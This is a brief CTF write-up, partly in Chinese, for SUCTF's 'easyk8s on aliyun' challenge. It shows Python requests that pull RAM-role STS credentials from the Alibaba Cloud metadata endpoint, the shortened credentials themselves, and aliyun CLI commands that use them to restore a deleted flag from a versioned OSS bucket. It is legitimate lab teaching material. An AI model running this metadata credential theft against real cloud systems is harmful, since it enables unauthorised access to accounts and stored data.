 ### SUCTF - easyk8s on aliyun

#### ecs ram role in metadata

python 解释器本身就能访问网络，直接尝试 aliyun metadata

```
import requests
print(requests.get("http://100.100.100.200/latest/meta-data/ram/security-credentials/").text)

print(requests.get("http://100.100.100.200/latest/meta-data/ram/security-credentials/oss-root").text)

> aksk sts 信息

 {
  "AccessKeyId" : "STS.NTU4h9N",
  "AccessKeySecret" : "GtFKSC8ZkETy",
  "Expiration" : "2025-01-12T09:03:33Z",
  "SecurityToken" : "CAIS1Msmy3zEgAA==",
  "LastUpdated" : "2025-01-12T03:03:33Z",
  "Code" : "Success"
}
```

#### oss

使用 oss sts 信息，直接访问 oss

```
aliyun configure --mode=StsToken

# 配置 上面得到的 aksk

aliyun oss ls
# get oss://suctf-flag-bucket

aliyun oss ls oss://suctf-flag-bucket --all-versions

# 开了 bucket 版本控制 flag 被删除了  还原 可以得到 flag
aliyun oss cat oss://suctf-flag-bucket/oss-flag --version-id CAEQmwIYgYDA6Lad1qIZIiAyMjBhNWVmMDRjYzY0MDI3YjhiODU3ZDQ2MDc1MjZhOA--
```